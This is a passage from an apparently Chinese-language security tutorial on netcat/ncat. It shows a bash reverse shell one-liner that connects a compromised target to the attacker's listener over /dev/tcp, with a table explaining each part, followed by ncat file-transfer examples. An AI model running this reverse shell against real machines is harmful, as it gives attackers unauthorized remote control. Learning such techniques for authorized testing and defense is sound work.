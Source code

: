 ![nc安全工具学习记录-小绿草信息安全实验室](https://dn-coding-net-tweet.codehub.cn/photo/2019/83d47167-b1f1-405a-87cd-d7d31577c3af.png)

## bash弹shell

如果控制的目标机器自带的`nc`不支持`-e`选项，那如何将shell弹出去呢？这里可以利用自带的`bash`命令交互环境来实现这个操作：

攻击者外网监听：

> `-p` port 本地端口

```bash
# 使用nc命令的话得添加 -p 指定端口这个选项
nc -lvp 2333

# ncat用法不变
ncat -lv 2333COPY
```

被入侵的目标机器执行如下命令：

```bash
bash -i >& /dev/tcp/10.211.55.4/2333 0>&1COPY
```

这条命令的作用等同于之前的`ncat -w 10 -e /bin/bash 10.211.55.4 2333`

| 命令                      | 参数解释                                                     |
| :------------------------ | :----------------------------------------------------------- |
| bash -i                   | 产生一个bash交互环境                                         |
| >&                        | 将联合符号前面的内容与后面结合然后一起重定向给后者           |
| /dev/tcp/10.211.55.4/2333 | 让目标主机与主机10.211.55.4的2333端口简历一个连接            |
| 0>&1                      | 将标准的输入与标准输出内容相结合，然后重定向给前面的标准输出内容 |

## 文件传输

|   操作系统    |     IP地址     |
| :-----------: | :------------: |
| macOS 10.13.6 |      内网      |
|    CentOS     | www.sqlsec.com |

### 上传文件到远程

CentOS远程服务器运行：

```bash
# root @ x1ct34m in ~ 
$ ncat -l 2333 > hello.txtCOPY
```

macOS本地运行：

```bash
# sqlsec @ X1cT34m-iMac in ~
$ ncat www.sqlsec.com 2333 < hello.txtCOPY
```
